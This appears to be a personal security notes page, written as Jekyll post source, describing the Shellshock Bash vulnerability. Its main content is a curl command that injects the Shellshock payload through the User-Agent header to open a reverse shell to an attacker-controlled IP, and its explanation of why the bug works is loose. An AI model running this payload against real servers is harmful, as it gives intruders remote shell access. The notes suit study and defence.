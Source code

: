 ```yaml
---
layout: post
title: 'Notes | Web Others'
permalink: /notes/web/others/
---
```


# [](#header-4)ShellShock Attack
This vulnerability in Bash allows remote code execution without confirmation. A series of random characters, () { :; }; , confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We can manipulate the **User-agent** to execute it, for example:
{% highlight plain %}
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/myip/443 0>&1" http://example.com/
{% endhighlight %}
